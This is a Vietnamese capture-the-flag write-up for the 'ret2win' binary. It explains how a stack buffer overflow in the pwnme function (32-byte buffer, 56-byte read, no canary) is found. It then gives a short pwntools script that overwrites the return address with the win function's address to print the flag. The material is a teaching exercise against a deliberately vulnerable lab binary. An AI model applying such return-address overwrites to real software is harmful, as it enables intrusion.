 **1. Tìm lỗi**

Chạy thử file bằng IDA ta có như sau: 

![main.png](photo/main.png)

Source hàm pwnme:

![pwnme.png](photo/pwnme.png)

Ta thấy biến s được khai báo 32 byte nhưng cho nhập 0x38 = 56 byte -> Có lỗi bof

![ret2win.png](photo/ret2win.png)

Ta thấy ở hàm này thì có thể lấy được nội dung của flag

Dùng lệnh 'checksec' để kiểm tra

![checksec.png](photo/checksec.png)

Ta thấy CANARY đang ở trạng thái disabled -> có thể khai thác qua lỗi bof

**2. Ý tưởng**

Biến s cho nhập 0x38 = 56 phần tử nên thử nhập tràn biến s đến ret rồi chèn địa chỉ hàm ret2win vào

**3. Viết script**

![s.png](photo/s.png)

Địa chỉ biến s hiện tại là: rbp - 0x20 -> Khoảng cách từ biến s đến ret là: 0x20 + 0x8 = 40

![add.png](photo/add.png)

Địa chỉ hàm win là: 0x400756

Ta có script như sau:

```
from pwn import *

r = process("./ret2win")

ret2win = 0x400756
payload = b'a'*40 + p64(ret2win)
r.sendafter('> ', payload)
r.interactive()
```

**4. Lấy flag**

![flag.png](photo/flag.png)

Flag: ROPE{a_placeholder_32byte_flag!}